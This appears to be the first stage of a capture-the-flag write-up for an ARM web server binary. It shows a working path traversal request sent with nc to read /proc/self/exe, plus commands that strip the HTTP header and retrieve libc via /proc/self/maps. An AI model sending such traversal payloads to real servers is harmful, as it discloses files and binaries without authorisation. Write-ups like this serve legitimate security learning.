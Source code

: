# Stage 1

There's a path traversal bug in the code that handles GET requests.
Abusing this, the binary can be obtained:

```bash
printf "GET ../../../../../proc/self/exe HTTP/1.1\r\n\r\n" | nc $ip 80 > response
```

Afterwards the HTTP header needs to be stripped:

```bash
dd if=response of=websrv bs=1 skip=$(python -c "print(open('response', 'rb').read().index(b'\x7fELF'))")
```

file should now report an elf file:

```bash
$ file websrv 
websrv: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 2.6.26, BuildID[sha1]=8f6a73fa2b913d8a5d7c9ce5797188b90457d0e5, stripped
```

The same can be done to retrieve the libc in use on the target system (get it's path through /proc/self/maps).

At this point it's time for some reverse engineering.
